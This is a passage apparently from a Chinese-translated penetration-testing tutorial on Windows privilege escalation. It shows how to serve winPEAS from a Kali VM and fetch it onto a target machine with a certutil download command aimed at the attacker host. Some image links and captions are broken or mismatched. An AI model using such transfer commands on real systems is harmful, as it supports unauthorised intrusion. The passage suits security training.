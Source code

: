     ![图 5.12 – SimpleHTTPServer](img/B17389_05_014.jpg)

    ](Images/B17389_05_012.jpg)

    图 5.12 – SimpleHTTPServer

1.  为了将**winPEAS.exe**二进制文件下载到目标系统，我们可以使用**certutil**工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到当前用户的桌面，如下图所示：

![图 5.13 – 默认用户目录](img/B17389_05_013.jpg)

图 5.13 – 默认用户目录

现在，我们可以使用**certutil**工具从 Kali 虚拟机下载二进制文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

**certutil -urlcache -f http://<KALI-VM>/winPEASx64.exe winPEAS.exe**

该命令的输出可以在以下截图中看到：

![图 5.14 – certutil 成功传输](img/B17389_05_012.jpg)
